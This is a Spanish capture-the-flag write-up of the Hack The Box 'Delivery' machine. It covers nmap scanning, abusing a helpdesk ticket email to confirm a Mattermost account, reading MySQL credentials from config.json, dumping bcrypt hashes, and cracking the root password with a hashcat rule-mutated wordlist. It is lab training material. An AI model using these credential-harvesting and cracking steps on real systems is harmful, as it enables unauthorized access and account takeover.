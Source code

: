 ```yaml
---
title: Delivery
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: [webbypass, mutatedpassword]     # TAG names should always be lowercase
---
```


```shell 
# Nmap 7.92 scan initiated Tue Oct  4 22:12:43 2022 as: nmap -sCV -p22,80,8065 -oN targeted 10.10.10.222
Nmap scan report for 10.10.10.222
Host is up (0.089s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
8065/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Wed, 05 Oct 2022 03:09:42 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: wtdju6assid1brx7dgcp68mrch
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Wed, 05 Oct 2022 03:12:51 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Wed, 05 Oct 2022 03:12:52 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8065-TCP:V=7.92%I=7%D=10/4%Time=633CF632%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,DF3,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20max-age=31556926,\x20public\
SF:r\nContent-Length:\x203108\r\nContent-Security-Policy:\x20frame-ancesto
SF:rs\x20'self';\x20script-src\x20'self'\x20cdn\.rudderlabs\.com\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nLast-Modified:\x20Wed,\x2005\
SF:x20Oct\x202022\x2003:09:42\x20GMT\r\nX-Frame-Options:\x20SAMEORIGIN\r\n
SF:X-Request-Id:\x20wtdju6assid1brx7dgcp68mrch\r\nX-Version-Id:\x205\.30\.
SF:0\.5\.30\.1\.57fb31b889bf81d99d8af8176d4bbaaa\.false\r\nDate:\x20Wed,\x
SF:2005\x20Oct\x202022\x2003:12:51\x20GMT\r\n\r\n<!doctype\x20html><html\x
SF:20lang=\"en\"><head><meta\x20charset=\"utf-8\"><meta\x20name=\"viewport
SF:\"\x20content=\"width=device-width,initial-scale=1,maximum-scale=1,user
SF:-scalable=0\"><meta\x20name=\"robots\"\x20content=\"noindex,\x20nofollo
SF:w\"><meta\x20name=\"referrer\"\x20content=\"no-referrer\"><title>Matter
SF:most</title><meta\x20name=\"mobile-web-app-capable\"\x20content=\"yes\"
SF:><meta\x20name=\"application-name\"\x20content=\"Mattermost\"><meta\x20
SF:name=\"format-detection\"\x20content=\"telephone=no\"><link\x20re")%r(H
SF:TTPOptions,5B,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowed\r\nDate:\x2
SF:0Wed,\x2005\x20Oct\x202022\x2003:12:52\x20GMT\r\nContent-Length:\x200\r
SF:\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close
SF:\r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct  4 22:14:21 2022 -- 1 IP address (1 host up) scanned in 98.59 seconds

```
En esta máquina encontramos un aplicativo de tickets de servicio y un login

![imagen1](/assets/images/delivery1.png)

![imagen2](/assets/images/delivery2.png)

En la página de tickets para bypassear la validación de la cuenta podemos crear un ticket nuevo y e irnos a "Check Ticket Status" para poder logearnos y visualizar el ticket.

![imagen3](/assets/images/delivery3.png)

![imagen4](/assets/images/delivery4.png)

En este punto tenemos su subdominio `helpdesk.delivery.htb` donde nos encontramos un login de `Mattermost`, al momento de registrarnos nos pide confirmación, para lograrlo ponemos el correo
generador del ticket y dentro de este podemos encontrar el link de confirmación.

![imagen5](/assets/images/delivery5.png)

Dentro nos encontramos un chat donde nos muestra una constraseña y una usuario, por lo que podemos logearnos por ssh.

![imagen6](/assets/images/delivery6.png)

```shell
ssh maildeliverer@10.10.10.222
The authenticity of host '10.10.10.222 (10.10.10.222)' can't be established.
ECDSA key fingerprint is SHA256:LKngIDlEjP2k8M7IAUkAoFgY/MbVVbMqvrFA6CUrHoM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? es
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.10.10.222' (ECDSA) to the list of known hosts.
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ whoami
maildeliverer
```
Si enumeramos los procesos podemos ver que mattermost se encuentra en la carpeta /opt/mattermost

```shell
maildeliverer@Delivery:/$ ps -faux | grep mattermost
maildel+  1278  0.0  0.0   6076   888 pts/0    S+   00:20   0:00              \_ grep mattermost
matterm+   729  0.5  3.4 1649596 140972 ?      Ssl  Oct04   0:06 /opt/mattermost/bin/mattermost
matterm+  1062  0.0  0.4 1235572 20088 ?       Sl   00:03   0:00  \_ plugins/com.mattermost.plugin-channel-export/server/dist/plugin-linux-amd64
matterm+  1069  0.0  0.6 1238932 25784 ?       Sl   00:03   0:00  \_ plugins/com.mattermost.nps/server/dist/plugin-linux-amd64
```

Dentro de este encontramos un archivo config.json donde pudimos obtener credenciales para mysql.

```shell
cat config.json | grep -i mysql -A 10
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
```
Nos conectamos a mysql con las credenciales y dentro podemos encontrar usuarios con sus respectivos hashes que intentaremos crackear con hashcat.

```shell
MariaDB [mattermost]> select Username, Password from Users
    -> ;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| test2                            | $2a$10$ZyhfiZRI.tER4zgHOtibiuaB6sx6bPjkIoUJMq58II6Rp8qLmZ9Pm |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| test                             | $2a$10$.F/.eHgW1HrCz/maGbT9qu6mf4VDByiHssN0qBHRwPW.DmJH1VCym |
+----------------------------------+--------------------------------------------------------------+
9 rows in set (0.000 sec)
```
En este punto no podremos crackear el hash de root porque la contraseña no se encuentra en el rockyou, volviendo a la página del chat podemos ver que hablan sobre cambiar la contraseña
PleaseSubscribe! a una variante de esta, para usar reglas y crear una lista mutada de esta contraseña, podemos usar hashcat.

```shell
hashcat --example-hashes  | grep '$2a' -B 3

MODE: 3200
TYPE: bcrypt $2*$, Blowfish (Unix)
HASH: $2a$05$MBCzKhG1KhezLh.0LRa0Kuw12nLJtpHy6DIaU.JAnqJUDYspHC.Ou
```
utilizamos la regla /usr/share/hashcat/rules/best64.rule

```shell
hashcat --force password.list -r base64.rule --stdout > mut_password.list
hashcat -m 3200 -a 0 hash mut_password.list
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```
Pudimos crackear la contraseña y podemos hacer un su para ser root.
